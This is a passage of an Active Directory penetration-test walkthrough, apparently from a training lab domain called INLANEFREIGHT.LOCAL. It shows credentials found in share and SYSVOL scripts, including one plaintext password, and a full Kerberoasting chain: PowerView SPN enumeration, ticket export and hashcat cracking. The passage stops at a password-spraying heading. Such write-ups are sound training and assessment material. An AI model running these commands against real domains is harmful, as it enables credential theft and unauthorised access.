 ### 💾 Credential Discovery in Shares
```bash
# Department Shares analysis:
/IT/Private/Development/SQL Express Backup.ps1

# File content analysis:
$mySrvConn.Login = "backupadm"
$mySrvConn.Password = "[REDACTED_PASSWORD]"
# Discovered: backupadm:[PASSWORD] (SQL backup service account)

# SYSVOL share enumeration:
\\172.16.8.3\sysvol\INLANEFREIGHT.LOCAL\scripts\adum.vbs

# Legacy credentials found:
Const cdoUserName = "account@inlanefreight.local"
Const cdoPassword = "L337^p@$$w0rD"
# Assessment: Likely outdated (2011/2015 script dates)
```

## 🎫 Kerberoasting Attack

### 🔍 SPN Account Discovery
```powershell
# PowerView SPN enumeration
Import-Module .\PowerView.ps1
Get-DomainUser * -SPN | Select samaccountname

# Discovered SPN accounts:
azureconnect, backupjob, krbtgt, mssqlsvc, sqltest, sqlqa, sqldev, mssqladm, svc_sql, sqlprod, sapsso, sapvc, vmwarescvc

# Ticket extraction
Get-DomainUser * -SPN -verbose | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation
```

### 🔐 Hash Cracking Results
```bash
# Hashcat attack
hashcat -m 13100 ilfreight_spns /usr/share/wordlists/rockyou.txt

# Successful crack:
backupjob:[CRACKED_PASSWORD]

# BloodHound analysis:
- Account has limited privileges
- No direct administrative access
- Document as finding: Weak Kerberos Authentication Configuration
```

## 🌊 Password Spraying Campaign
